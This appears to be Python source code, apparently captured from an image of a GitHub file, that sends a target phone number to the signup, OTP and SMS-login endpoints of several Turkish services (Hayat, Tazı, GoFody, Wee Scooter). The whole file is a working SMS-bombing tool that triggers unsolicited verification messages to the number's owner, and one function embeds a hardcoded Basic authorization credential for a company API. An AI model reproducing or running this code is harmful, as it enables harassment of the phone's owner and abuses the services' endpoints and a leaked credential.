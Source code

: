 def hayat(number):
    try:
        url = f"https://www.hayatsu.com.tr/api/signup/otpsend?mobilePhoneNumber={number}"
        r = requests.post(url=url, timeout=5)
        r1 = json.loads(r.text)["IsSuccessful"]
        if r1 == True:
            return True, "Hayat"
        else:
            return False, "Hayat"
    except:
        return False, "Hayat"

def tazi(number):
    try:
        url = "https://mobileapiv2.tazi.tech/C08467681C6844CFA6DA240D51C8AA8C/uyev2/smslogin"
        payload = {
            "cep_tel" : f"{number}",
            "cep_tel_ulkekod" : "90"
        }
        headers = {
            "authorization" : "Basic dGF6aV91c3Jfc3NsOjM5NTA3RjI4Qzk2MjRDQ0I4QjVBQTg2RUQxOUE4MDFD"
        }
        r = requests.post(url=url, headers=headers, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Tazı"
        else:
            return False, "Tazı"
    except:
        return False, "Tazı"

def gofody(number):
    try:
        url = "https://backend.gofody.com/api/v1/enduser/register/"
        payload = {
            "country_code": "90",
            "phone": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "GoFody"
        else:
            return False, "GoFody"
    except:
        return False, "GoFody"

def weescooter(number):
    try:
        url = "https://friendly-cerf.185-241-138-85.plesk.page/api/v1/members/gsmlogin"
        payload = {
            "tenant": "62a1e7efe74a84ea61f0d588",
            "gsm": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Wee Scooter"
        else:
            return False, "Wee Scooter"
    except:
        return False, "Wee Scooter"
